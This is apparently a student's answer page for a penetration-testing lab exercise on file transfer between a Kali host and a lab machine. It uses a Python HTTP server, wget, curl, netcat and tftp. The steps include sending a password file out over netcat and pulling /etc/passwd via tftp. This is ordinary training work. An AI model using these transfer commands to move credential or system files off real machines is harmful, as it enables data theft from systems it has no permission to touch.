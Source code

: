 [Summary](./README.md)

## Exercises

1. On your Kali machine, create a file named malware.php.

````  
echo "This is a malware file" > malware.php 
````
Then, in the same directory, ccreate a temporary server with python on port 5000.
````
python3 -m http.server 5000
````
2. On your Student machine, download the malware.txt file with the wget command.

> Your command : wget 192.168.149.15:5000/malware.php

3. On your Student machine, download the malware.txt file with the cURL command.

> Your command : curl -O 192.168.149.15:5000/malware.php

4. On the student machine, create a file named password.txt and transfer it to your student machine with netcat

> Your commands : nc -lvp 4444 < password.txt
> nc 10.12.181.103 4444 > password.txt

5. On the student machine, transfer ``/etc/passwd`` file to your kali machine with tftp

> the default folder where files are shared on the student machine is /var/lib/tftpboot so I copied passwd in there as root user first

> your commands : tftp 10.12.181.103
> get passwd

[Next](./Privilege_Escalation.md)